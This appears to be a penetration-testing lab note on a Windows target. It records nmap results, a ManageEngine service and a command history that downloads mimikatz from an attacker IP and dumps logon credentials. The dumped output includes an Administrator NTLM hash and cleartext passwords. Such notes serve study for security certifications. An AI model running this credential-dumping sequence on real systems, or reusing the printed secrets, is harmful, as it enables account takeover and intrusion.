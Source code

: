 # VM 3 192.168.x.95
# Accounts
	Eric.Wallows / EricLikesRunning800
# Flag Location
	C:\Users\Administrator\Desktop\proof.txt
# Enumeration
## NMAP
`sudo nmap -sV 192.168.141.95 --top-ports 100`

```
PORT     STATE SERVICE       VERSION
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
3389/tcp open  ms-wbt-server Microsoft Terminal Services
8443/tcp open  ssl/https-alt AppManager
```
## XXX
# Services    
	http://192.168.141.95:44444/index.do -> ManageEngine App Manager

## Command History
```
    Invoke-WebRequest -Uri "http://192.168.45.219/mimikatz.exe" -OutFile "mimikatz.exe"
    mimikatz
    -> riviliege::debug
    -> token::elevate
    -> sekursa::logonpasswords
        Authentication Id : 0 ; 712535 (00000000:000adf57)
        Session           : Interactive from 1
        User Name         : Administrator
        Domain            : SECURE
        Logon Server      : SECURE
        Logon Time        : 2/20/2025 9:58:06 PM
        SID               : S-1-5-21-3197578891-1085383791-1901100223-500
                msv :
                [00000003] Primary
                * Username : Administrator
                * Domain   : SECURE
                * NTLM     : a51493b0b06e5e35f855245e71af1d14
                * SHA1     : 02fb73dd0516da435ac4681bda9cbed3c128e1aa
                tspkg :
                wdigest :
                * Username : Administrator
                * Domain   : SECURE
                * Password : (null)
                kerberos :
                * Username : Administrator
                * Domain   : SECURE
                * Password : (null)
                ssp :
                credman :
                [00000000]
                * Username : apache
                * Domain   : era.secura.local
                * Password : New2Era4.!
                cloudap :
```